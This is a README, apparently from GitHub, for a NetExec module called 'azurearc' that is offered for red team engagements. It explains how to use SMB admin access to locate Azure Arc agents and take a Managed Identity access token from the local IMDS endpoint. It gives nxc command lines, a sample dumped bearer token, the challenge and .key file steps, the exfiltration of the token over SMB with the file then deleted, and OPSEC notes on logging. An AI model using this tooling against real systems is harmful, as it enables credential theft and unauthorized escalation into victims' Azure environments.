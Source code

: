 # NetExec Module: `azurearc`  
Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.  

* **Protocol:** SMB (requires local administrator privileges)  
* **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.  


  
## ✨ Features

* **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.  
* **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.  


    
  
# ⚙️ Usage

* Add the module file at:    
  nxc/modules/azurearc.py

  
## Presence check only :
```
nxc smb  -u <USER> -p <PASS> -M azurearc -o CHECK=true
```
## Token dump :
```
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc  
[*] Attempting to retrieve Azure Arc Managed Identity access token  
[+] Managed Identity token retrieved  
{
"access_token": "eyJhbGciOi......",
"expires_on": "1730812345",
"token_type": "Bearer",
"resource": "https://management.azure.com"
}
```
## 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent*   
C:\Program Files (x86)\AzureConnectedMachineAgent*
### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=... → expect 401 with WWW-Authenticate: Basic realm="<path to .key>" Read the .key contents (requires local admin).  
2.Second GET with Authorization: Basic to obtain token JSON.   
Write JSON to OUTFILE, fetch via SMB, and delete the file.
### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/31a6fe6a-7b17-4ead-8f4f-461993a402c8" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/66d38783-4033-4e86-a293-f69149ceb5ff" />



### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.
### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud  
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

